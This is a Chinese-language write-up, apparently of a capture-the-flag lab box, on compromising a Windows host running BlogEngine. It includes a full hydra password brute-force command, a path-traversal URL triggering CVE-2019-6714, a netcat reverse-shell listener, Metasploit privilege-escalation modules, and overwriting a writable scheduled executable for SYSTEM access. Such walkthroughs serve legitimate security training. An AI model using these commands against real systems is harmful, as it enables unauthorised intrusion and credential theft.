# Recon:
`PORT     STATE SERVICE       VERSION`
`80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)`
`3389/tcp open  ms-wbt-server Microsoft Terminal Services`
就这个扫描的结果来看，攻击向量已经很明显了，我们直接看看这个网页在搞什么：

这是一个博客展示，但有个有趣的登录端口：

那自然是不必多说，当然要试试弱口令破解，不过在那之前，我们还是要抓个包看看：

虽然这个post请求带了一个动态参数__VIBWSTATE，但是经过在repeater里面的实验，把这个参数写死也完全没有问题，因为burpsuite社区版有并发限制，速度受限过于严重，对于这种不要求动态检验的登录，我们直接上hydra：
`hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt 10.48.158.223 http-post-form '/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=dXvw1plALR1wIuvS7Eh6rocnLP3wmko0xH1hHq0l4M1qUDG4VujYmvTOShA1scAyOrBm9Mf%2BEceNIt%2Fb5%2BDWBHvqS3Dyont42pTc%2BJQ8aNb%2BrYDb583n1xXcX4dDirojJLwIowI7y7PrWfOOcz%2FMgg6zK9U3jrbXA6ICW%2BvVF6JKzDAUUvkZGHDFPMbPBTWHZfNk9N914YB%2BF5WI0J0jCLV%2BSLmIDeJiXrYvAOeGuwSHZoGRHDDs6wzYzUCMNZbDHajwY2bBPLJSjTb57dESRD%2F%2FhJl%2FOpq4NMAj88tJQJ4HXNH9XG1%2F2K%2FrQDh5p3IzzP1VJaMEB1HuCHieSLZ%2FfaqsX0YxqRyCUObT18%2BOVMbdzm61&__EVENTVALIDATION=SA%2BWzk7vhxxnHexBchy55BhGq%2Btl5YCLgTouPWWtHf%2FxMOLzglL40Qy3y8CmMZGq0uKWI56Meg37yZdLqqwoT9TieGQFC9cSKmBYjaeGxkt5BxMb1nXUOt5dOjsR%2BMIz2XriINcWTExuYlWHWF5uHYJnKn0Eown7%2B%2FqwC29OqO4fWddL&ctl00$MainContent$LoginUser$UserName=^USER^&ctl00$MainContent$LoginUser$Password=^PASS^&ctl00$MainContent$LoginUser$LoginButton=Log+in:F=Login failed'`
这里有几个注意点，一是抓包把参数都补上，二是要对参数进行url编码：给hydra调参数是一个比较折磨的过程，不过16线程的速度会给你回报：
`[STATUS] 880.00 tries/min, 880 tries in 00:01h, 14343518 to do in 271:40h, 16 active`
`[80][http-post-form] host: 10.48.158.223   login: admin   password: 1qaz2wsx`
==`1 of 1 target successfully completed, 1 valid password found`==
我们登录进去之后可以看到这个BlogEngine的具体配置：

然后我们去exploit db上搜索找到对应的exploit即可：cve-2019-6714。

# Access:
接下来我们直接根据脚本里面给出的instructions操作即可：

上传我们修改好的恶意脚本：

接下来我们在本地开一个监听端口等待目标回连：`nc -lvnp 4444`
在浏览器访问：`http://10.48.158.223/?theme=../../App_Data/files`以触发脚本：
pwned!!我们拿到shell了。

# Escalation：
为了操作方便，我们还是要把这个普通的shell转化为更加牛逼的meterpreter，思路跟alfred一致：使用msfvenom生成脚本，然后用我们现在的shell上传并执行：

boom~我们就拿到meterpreter了。
为了进一步枚举和分析目标机器，现在有两个选择，一个是使用msf内置的`local_exploit_suggester`,这会非常方便，把当前会话挂起，然后调用post/multi/recon/local_exploit_suggester模块即可。
还有一个选择就是把sysinfo的信息复制出来喂个本地的脚本分析，这样速度会变慢，但是覆盖面会更广：
`1.克隆git仓库`
`git clone https://github.com/bitsadmin/wesng.git`
`2. 更新数据库`
`python wes.py --update`
`3. 对比分析`
`python wes.py --systeminfo sysinfo.txt`

一般情况下我们采用第一种方式即可：

这是你目前最需要的。这些 Exploit 可以让你从当前的普通用户权限直接跳跃到 `SYSTEM` 权限。

- **#5 `exploit/windows/local/ms16_032_secondary_logon_handle_privesc`**
    - **推荐指数：⭐⭐⭐⭐⭐ (Highest Priority)**
    - **原因：** 这是一个非常经典且稳定的漏洞。它利用 Windows 的 Secondary Logon 服务泄露句柄。如果你当前的 Meterpreter 会话是一个普通用户，甚至是服务账户，这个模块通常能极其稳定地弹回一个 SYSTEM Shell。
- **#4 `exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move`**
    - **推荐指数：⭐⭐⭐⭐**
    - **原因：** 这是一个较新的漏洞（2020年），利用 BITS 服务。如果上面的老牌漏洞失败，这个是极佳的备选。
- **#6 & #7 `ms16_075_reflection` / `_juicy` (Rotten/Juicy Potato)**
    - **推荐指数：⭐⭐⭐ (Conditional)**
    - **原因：** 这就是著名的 "Potato" 系列攻击。
    - **注意：** 它们非常依赖当前用户是否拥有 `SeImpersonatePrivilege` 权限。如果你是作为 IIS 服务账户（例如 `IIS AppPool`）进来的，这通常是首选；如果是普通桌面用户，可能无法使用。
- **#8 `exploit/windows/local/tokenmagic`**
    - **推荐指数：⭐⭐⭐**
    - **原因：** 同样是针对令牌（Token）操作的提权，作为备选方案。

我们都尝试一下：
不过很遗憾，这些exploit都没有奏效，我们尝试用一下winpeas进行更强大的枚举：
`execute -f 'C:\Windows\Temp\winPEAS.exe' -i -H`
在花花绿绿的输出中我们很快就能看到天选之子：

调用系统性服务，还允许所有人改写，我们进去systemscheduler的目录看看具体的：
`040777/rwxrwxrwx  4096     dir   2026-01-11 08:40:33 +0800  Events`
`100666/rw-rw-rw-  60       fil   2019-08-04 19:36:42 +0800  Forum.url`
`100666/rw-rw-rw-  9813     fil   2004-11-16 15:16:34 +0800  License.txt`
`100666/rw-rw-rw-  1496     fil   2026-01-11 06:38:24 +0800  LogFile.txt`
`100666/rw-rw-rw-  3760     fil   2026-01-11 06:39:03 +0800  LogfileAdvanced.txt`
`100777/rwxrwxrwx  536992   fil   2018-03-26 01:58:56 +0800  Message.exe`
`100777/rwxrwxrwx  445344   fil   2018-03-26 01:59:00 +0800  PlaySound.exe`
`100777/rwxrwxrwx  27040    fil   2018-03-26 01:58:58 +0800  PlayWAV.exe`
`100666/rw-rw-rw-  149      fil   2019-08-05 06:05:19 +0800  Preferences.ini`
`100777/rwxrwxrwx  485792   fil   2018-03-26 01:58:58 +0800  Privilege.exe`
`100666/rw-rw-rw-  10100    fil   2018-03-25 03:09:04 +0800  ReadMe.txt`
`100777/rwxrwxrwx  112544   fil   2018-03-26 01:58:58 +0800  RunNow.exe`
`100777/rwxrwxrwx  235936   fil   2018-03-26 01:58:56 +0800  SSAdmin.exe`
`100777/rwxrwxrwx  731552   fil   2018-03-26 01:58:56 +0800  SSCmd.exe`
`100777/rwxrwxrwx  456608   fil   2018-03-26 01:58:58 +0800  SSMail.exe`
`100777/rwxrwxrwx  1633696  fil   2018-03-26 01:58:52 +0800  Scheduler.exe`
`100777/rwxrwxrwx  491936   fil   2018-03-26 01:59:00 +0800  SendKeysHelper.exe`
`100777/rwxrwxrwx  437664   fil   2018-03-26 01:58:56 +0800  ShowXY.exe`
`100777/rwxrwxrwx  439712   fil   2018-03-26 01:58:56 +0800  ShutdownGUI.exe`
`100666/rw-rw-rw-  785042   fil   2006-05-17 07:49:52 +0800  WSCHEDULER.CHM`
`100666/rw-rw-rw-  703081   fil   2006-05-17 07:58:18 +0800  WSCHEDULER.HLP`
`100777/rwxrwxrwx  136096   fil   2018-03-26 01:58:58 +0800  WSCtrl.exe`
`100777/rwxrwxrwx  68512    fil   2018-03-26 01:58:54 +0800  WSLogon.exe`
`100666/rw-rw-rw-  33184    fil   2018-03-26 01:59:00 +0800  WSProc.dll`
`100666/rw-rw-rw-  2026     fil   2006-05-17 06:58:18 +0800  WScheduler.cnt`
`100777/rwxrwxrwx  331168   fil   2018-03-26 01:58:52 +0800  WScheduler.exe`
`100777/rwxrwxrwx  98720    fil   2018-03-26 01:58:54 +0800  WService.exe`
`100666/rw-rw-rw-  54       fil   2019-08-04 19:36:42 +0800  Website.url`
`100777/rwxrwxrwx  76704    fil   2018-03-26 01:58:58 +0800  WhoAmI.exe`
`100666/rw-rw-rw-  1150     fil   2007-05-18 04:47:02 +0800  alarmclock.ico`
`100666/rw-rw-rw-  766      fil   2003-09-01 03:06:08 +0800  clock.ico`
`100666/rw-rw-rw-  80856    fil   2003-09-01 03:06:10 +0800  ding.wav`
`100666/rw-rw-rw-  1637972  fil   2009-01-09 11:21:48 +0800  libeay32.dll`
`100777/rwxrwxrwx  40352    fil   2018-03-26 01:59:00 +0800  sc32.exe`
`100666/rw-rw-rw-  766      fil   2003-09-01 03:06:26 +0800  schedule.ico`
`100666/rw-rw-rw-  355446   fil   2009-01-09 11:12:34 +0800  ssleay32.dll`
`100666/rw-rw-rw-  6999     fil   2019-08-04 19:36:42 +0800  unins000.dat`
`100777/rwxrwxrwx  722597   fil   2019-08-04 19:36:32 +0800  unins000.exe`
`100666/rw-rw-rw-  6574     fil   2009-06-27 08:27:32 +0800  whiteclock.ico`
可以看到会由wservice主程序调用的exe其实很多，而且都带有写入权限，但是，在windows中，正在运行的exe是不能被重写或者覆盖的，所以我们能锁定真正的入口:message.exe，定时任务，简直就是专门的后门。
接下来的操作就很简单了，我们使用msfvenom生成payload，上传覆盖，等待shell回连即可：


我们现在只需要静静地等待回连即可，让子弹飞一会～
pwned，顺利拿到最高权限